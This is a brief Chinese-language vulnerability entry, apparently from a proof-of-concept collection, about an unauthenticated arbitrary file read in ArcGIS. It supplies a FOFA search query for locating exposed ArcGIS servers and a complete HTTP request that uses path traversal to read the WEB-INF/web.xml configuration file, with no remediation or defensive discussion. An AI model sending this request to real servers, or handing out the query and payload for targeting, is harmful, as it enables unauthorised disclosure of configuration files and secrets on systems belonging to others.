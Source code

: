 # ArcGIS地理信息系统任意文件读取漏洞

ArcGIS地理信息系统 存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件。

## fofa

```javascript
app="esri-ArcGIS"
```

## poc

```javascript
GET /arcgis/manager/3370/js/../WEB-INF/web.xml HTTP/1.0
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241106172857303](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411061728383.png)